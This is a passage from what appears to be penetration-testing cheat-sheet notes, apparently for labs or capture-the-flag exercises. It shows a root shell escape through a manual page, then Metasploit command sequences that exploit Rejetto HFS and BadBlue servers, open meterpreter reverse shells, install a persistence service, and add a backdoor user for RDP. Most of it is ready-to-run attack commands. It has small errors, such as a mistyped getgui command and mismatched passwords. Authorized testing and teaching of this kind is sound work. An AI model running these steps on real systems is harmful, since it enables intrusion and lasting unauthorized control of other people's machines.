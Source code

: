 Once you are in the manual page, type `/bin/bash` and it will open a root terminal.

```bash
root@kali> cat /root/flag
```

### Windows persistence

#### Create a new service

* Persistence consists of techniques that adversairies use to keep access to systems across restarts, changed credentials, and other interruptions that could cut off their access. Techniques used for persistence include any access, action, or configuration changes that let them maintain their foothold on systems, such as replacing or hijacking legitimate code or adding startup code
* Gaining an initial foothold is not enough, you need to setup and maintain persisten access to your targets.
* Reference on https://attack.mitre.org.

_Note: the persistence technique you use will need to be in accordance with the rules of engagment laid out agreed upon with the client._

```bash
# exploit
msf6> use exploit/windows/http/rejetto_hfs_exec
msf6> set rhosts 10.3.17.79
msf6> set payload windows/x64/meterpreter/reverse_tcp
msf6> run
meterpreter> background
# persist
msf6> use exploit/windows/local/persistence_service
msf6> set session 1
msf6> set lport 4445
msf6> run
# kill
msf6> sessions -K
# backdoor
msf6> use multi/handler
msf6> set lhost eth1
msf6> set lport 4445
msf6> run
meterpreter> getuid  # NT AUTHORITY\SYSTEM
```

#### Create a new user

Create a new user then login with RDP protocol.

```bash
# exploit
msf6> use exploit/windows/http/badblue_passthru
msf6> setg rhosts 10.3.30.156
msf6> run
# create new user john:password_123321
meterpreter> un getgui -e -u john -p pass_123321
```
